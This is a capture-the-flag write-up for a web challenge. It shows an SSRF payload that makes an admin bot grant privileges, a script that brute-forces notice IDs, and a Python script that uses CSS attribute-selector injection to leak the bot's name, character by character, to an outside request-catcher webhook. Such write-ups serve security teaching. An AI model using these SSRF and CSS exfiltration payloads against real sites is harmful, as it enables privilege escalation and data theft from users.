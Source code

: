 ### Challenge Overview

We are given a website where we can post something and choose your favorite color while registering. The chosen color is directly inserted into the css of each of our posts. Also there is a `/admin` route, the source code of that is as:

``` ts
@Controller('admin')
export class AdminController {
    constructor(
        private readonly adminService: AdminService
    ) { }

    @Get('/grant')
    @UseGuards(LocalOnlyGuard)
    async grantPerm(@Query('username') username: string) {
        return await this.adminService.authorize(username);
    }

    @Get('/notice')
    @UseGuards(AdminGuard)
    @Render('notice-main')
    async renderAllNotice() {
        const notices = await this.adminService.getAllNotice();

        return { notices: notices.filter(notice => !notice.title.includes("flag")) };
    }

    @Get('/report')
    async test(@Query('url') url: string) {
        await this.adminService.viewUrl(url);

        return { status: 200, message: 'Reported.' };
    }

    @Get('/notice/:id')
    @UseGuards(AdminGuard)
    @Render('notice')
    async renderNotice(@Param('id') id: Types.ObjectId) {
        const notice = await this.adminService.getNotice(id);

        return { notice: notice };
    }
}
```

on `/report` admin bot (pupeteer browser) which has admin access visits the url given in the param,

We can also edit posts, but only if we have admin access, the relevant code is given:

```ts
  @Get('/edit/:id')
  @UseGuards(AdminGuard)
  @Render('post-edit')
  async renderEdit(@Req() request: Request, @Param('id') id: Types.ObjectId) {
    const post = await this.postService.getPostById(id);
    const author = await this.userService.getUserById(post.user);
    const user = request.user;

    user.personalColor = xss(user.personalColor);
    author.personalColor = xss(author.personalColor);

    return { post: post, author: author, user: request.user };
  }

  @Post('/edit/:id')
  @UseGuards(AdminGuard)
  async editPost(@Param('id') id: Types.ObjectId, @Body() data: CreatePostDto) {
    return await this.postService.editPost(id, data);
  }

```

### Solution

We found that the `/admin` route is vulnerable to `SSRF`. The pupeteer browser has admin access while visiting the url and it is also running on localhost which means it can be exploited to give admin access to ourself via the `/grant` route.

Payload:
```
<instance url>admin/report?url=http://localhost:1337/admin/grant?username=<your username>
```
Yaay, Got the admin privilages !

Then we are able to access the notices from `/admin/notice` but the notice containing flag is filtered before rendering, Yikes!.

But then we noticed that the other posts have similar ids but only 2 characters were different, we went on to brute the 16*16 possible charcters and got the post containing the flag through :

`/admin/notice/<id by brute forcing>`

The brute script:

```py
import requests

TOKEN="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NmE1ZTc1ZGMxNDJkZDE3MmUwOTJhNWIiLCJ1c2VybmFtZSI6ImEiLCJwZXJzb25hbENvbG9yIjoiIzAwMDAwMCIsImlzQWRtaW4iOnRydWUsImlhdCI6MTcyMjE0ODc5MCwiZXhwIjoxNzIyMTUyMzkwfQ.1FtqBZcMi_WIyoNWB3i86GMLJATQGcz90zKI6uoRN-I"
baseURL = "https://b2c742d9f8b3584414958c4e.deadsec.quest"

def getAdminNotice(noticeURL, accessToken=TOKEN):
    url = baseURL + "/admin/notice/" + noticeURL
    sendCookie = {"accessToken": accessToken}
    r = requests.get(url, cookies=sendCookie)
    return r


notice = "66a5e722e5dd2fd7e79f2d68"
characters = "abcdef1234567890"
for first in characters:
    for second in characters:
        newNotice = notice[0:7] + first + notice[8:-1] + second
        res = getAdminNotice(newNotice).text
        if '404' not in res:
            print(newNotice, res)
```

We found the second part of the flag from the post : `c010rful_w3b_with_c55}`

The initial part of the flag was in the name of the admin bot.

Uhm, we thought from here that the flag has something to do with css injection.

Then, we found out the `/post/edit/:id` has value of person visiting the post in the input field, and we can also inject custom css from the personal color value while registering in the website, like putting:
```css
personal_color= #000000; } .body{ background-color: black}
```
CSS injection acheived! 

Now what left was to just make the admin bot visit our post and leak its name character by character to get the complete flag. We rendered the css with condition that if name of bot starts with a certain charcter, it hits our webhook site:
```css
#369369; }  
input[class=user][value^="D"] 
{background: url(https://solve.requestcatcher.com/);}
```
We automated this process using this script and retrieved the first part of our flag.
This script retrieves one chracter of flag on running once:

```py
import requests
import re
from os import urandom

TOKEN = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2NmE1YmIzZmRmMDliYjc3N2ZlZGMwODEiLCJ1c2VybmFtZSI6InJhbmRvbSIsInBlcnNvbmFsQ29sb3IiOiIjZTg0YTRhO30gYm9keSB7Y29sb3I6ICMxMjMxMjMiLCJpc0FkbWluIjpmYWxzZSwiaWF0IjoxNzIyMTM3NjY4LCJleHAiOjE3MjIxNDEyNjh9.B8kzYQR_SXm1-sgYzUXbQEEAsM0sGL7T1ntdx-QQLQo"
baseURL = "https://b2c742d9f8b3584414958c4e.deadsec.quest"

def register(username, password, personalColor):
    url = baseURL + "/auth/register"
    sendJSON = {"username": username, "password": password, "personalColor": personalColor}
    r = requests.post(url, json=sendJSON)
    return r

def login(username, password):
    url = baseURL + "/auth/login"
    sendJSON = {"username": username, "password": password}
    r = requests.post(url, json=sendJSON)
    return r

def write(title, content, accessToken=TOKEN):
    url = baseURL + "/post/write"
    sendJSON = {"title": title, "content": content}
    sendCookie = {"accessToken": accessToken}
    r = requests.post(url, json=sendJSON, cookies=sendCookie)
    return r

def getAllPosts(accessToken=TOKEN):
    url = baseURL + "/post"
    sendCookie = {"accessToken": accessToken}
    r = requests.get(url, cookies=sendCookie)
    res = r.text
    posts = re.findall("/post/[0-9a-f]{24}", res)
    return posts

def getPost(postURL, accessToken=TOKEN):
    url = baseURL + postURL
    sendCookie = {"accessToken": accessToken}
    r = requests.get(url, cookies=sendCookie)
    return r

def sendAdmin(postid, accessToken):
    url = 'https://b2c742d9f8b3584414958c4e.deadsec.quest/admin/report?url=http://localhost:1337/post/edit/' + postid
    sendCookie = {"accessToken": accessToken}
    return requests.get(url, cookies=sendCookie)


user = str(urandom(16).hex())
print("User:",user)
passwd = user
# characters = "ABCDEFGHIJKLMNOPQRSTUVXYZ"
characters = "abcdefghijklmnopqrstuvwxyz1234567890_"
flag = "DEAD{Enj0y_y"
finalExploit = '#369369; } '
for letter in characters:
    letterExploit = 'input[class=user][value^="'+ flag + letter + '"] {background: url(https://dragon.requestcatcher.com/' + flag+letter+');} '
    finalExploit += letterExploit
letterExploit = 'input[class=user][value^="'+ flag + '}' + '"] {background: url(https://dragon.requestcatcher.com/' + flag+'}'+'); '
finalExploit += letterExploit
print(finalExploit)

print("Register:", register(user, passwd, finalExploit).json())

res = login(user, passwd).json()
token = res["accessToken"]
print(f"{token=}")

title = "RandomHacker"
content = "RandomHacker"
print("Write:", write(title, content, token).text)

myPosts = getAllPosts(token)
print("Posts:")
for post in myPosts:
    print(sendAdmin(post[6:], token).text)
    print(post[6:])


```


The final flag:

`DEAD{Enj0y_y0ur_c010rful_w3b_with_c55}`